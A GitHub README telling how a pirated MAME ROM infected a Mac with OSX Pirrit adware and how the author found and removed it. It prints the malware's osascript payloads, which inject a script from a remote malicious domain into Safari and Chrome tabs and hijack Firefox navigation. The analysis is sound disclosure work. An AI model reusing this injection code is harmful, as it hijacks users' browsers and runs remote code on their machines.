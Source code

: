 Warning
=======

This repository contains binaries which contain OSX Pirrit malware.

Backstory
=========

Recently I've been volenteering some of my free time to help children learn to program software and tinker with electronics and I thought it might be neat for the kids to build an old school arcade machine. As part of my initial research into this I had compiled MAME on my new MacBook and was searching for some ROMs that I could try out. The first ROM that I downloaded just happened to be infected with some nasty Malware...

If you're curious, the ROM was for [Galaxian](https://en.wikipedia.org/wiki/Galaxian) and [here is/was the actual download link](http://www.freeroms.com/dl_roms/rom_download.php?title=galaxian_midway&system=MAME&game_id=5674)

Now at this point I should mention that from time-to-time I can be quite a careless individual. The ROM in question was packaged such that upon execution I was immediately asked to enter my root password. Stupid me complied without thinking twice. It was late. I was tired. And quite frankly my fingers were typing in auto-pilot mode at this point. My bad.

Almost immediately I knew that I had f**ked up.

Suddenly, some shadey "software services" appeared on my laptop and Safari started behaving odd. Convinced that I'd been compromised by "something" I immediately downloaded ESET Cyber Security for Mac and ran a scan. 

Nothing.... My MacBook appeared clean. I was not convinced however.

I checked my running processes and one in particular stood out. It looked like a whole bunch of javascript code passed as an argument to "/usr/bin/osascript".

```
  501   514   509   0 12:56pm ??         0:11.84 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU"^M\012^M\012repeat^M\012«event XFdrIjct» {} ^M\012end repeat^M\012^M\012^M\012on «event XFdrIjct» {}^M\012delay 0.5^M\012try^M\012if is_Safari_running() then^M\012tell application "Safari" ^M\012tell application "Safari" to set page_source to do JavaScript "document.body.innerHTML;" in current tab of first window ^M\012if page_source does not contain _pid then^M\012set theURL to URL of current tab of first window^M\012if theURL is not equal to "about:blank" then^M\012tell application "Safari" to do JavaScript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" in current tab of first window ^M\012tell application "Safari" to do JavaScript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);" in current tab of first window^M\012end if ^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Safari_running() ^M\012tell application "System Events" to (name of processes) contains "Safari"^M\012end is_Safari_running
  501   516   509   0 12:56pm ??         0:01.87 /usr/bin/osascript -e global delayTime^M\012set delayTime to 99999999^M\012global newTabUrl^M\012set newTabUrl to "'http://google.com'"^M\012global currentUrl^M\012set currentUrl to ""^M\012global previousUrl^M\012set previousUrl to ""^M\012global newTabWithPrev^M\012set newTabWithPrev to ""^M\012^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {}^M\012delay (delayTime * 60)^M\012try^M\012if is_Firefox_running() then^M\012tell application "Firefox" to activate^M\012tell application "System Events"^M\012keystroke "l" using command down^M\012keystroke "c" using command down^M\012delay(1)^M\012end tell^M\012set currentUrl to the clipboard^M\012^M\012if currentUrl is not equal to previousUrl then^M\012set newTabUrlWithPrev to newTabUrl^M\012set newTabUrlWithPrev to replace_chars(newTabUrlWithPrev, "[CONTEXT_URL]", currentUrl)^M\012tell application "Firefox"^M\012open location newTabUrlWithPrev^M\012end tell^M\012set previousUrl to newTabUrlWithPrev^M\012end if^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Firefox_running()^M\012tell application "System Events" to (name of processes) contains "firefox"^M\012end is_Firefox_running^M\012^M\012on replace_chars(this_text, search_string, replacement_string)^M\012set AppleScript's text item delimiters to the search_string^M\012set the item_list to every text item of this_text^M\012set AppleScript's text item delimiters to the replacement_string^M\012set this_text to the item_list as string^M\012set AppleScript's text item delimiters to ""^M\012return this_text^M\012end replace_chars
  501 66630   509   0  7:16pm ??         0:00.04 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU" ^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {} ^M\012delay 0.5^M\012try^M\012if is_Chrome_running() then^M\012tell application "Google Chrome" to tell active tab of window 1^M\012set sourceHtml to execute javascript "document.getElementsByTagName('html')[0].innerHTML"^M\012if sourceHtml does not contain _pid then^M\012tell application "Google Chrome" to execute front window's active tab javascript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" ^M\012tell application "Google Chrome" to execute front window's active tab javascript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);"^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Chrome_running() ^M\012tell application "System Events" to (name of processes) contains "Google Chrome"^M\012end is_Chrome_running
  501 66632 41100   0  7:16pm ttys000    0:00.00 grep osa
```

What in the hell is osascript? A quick google search revealed it to be part of the [Apple Open Scripting Architecture](https://developer.apple.com/library/content/documentation/AppleScript/Conceptual/AppleScriptX/Concepts/osa.html). 

A closer look and I could see that something else was being "bootstrapped" from the the domain aa9bd78f328a6a41279d0fad0a88df1901.com. Looks legit....

So I run a wget on the full URL and inspect the result which [you can see here](../blob/master/malicious.js). And there it was. Shitty adware.

I run some "kill -9" commands on the osascript processes but they just keep coming back. O.K. what's kicking them off? I check the PPID on the process and reveal that [/Library/research/research](../blob/master/research.do.not.execute). I back him up so I can take a closer look later -- then I delete it from its current location. I kill the "research" process and all of the "osascript" child processes, which don't respawn.

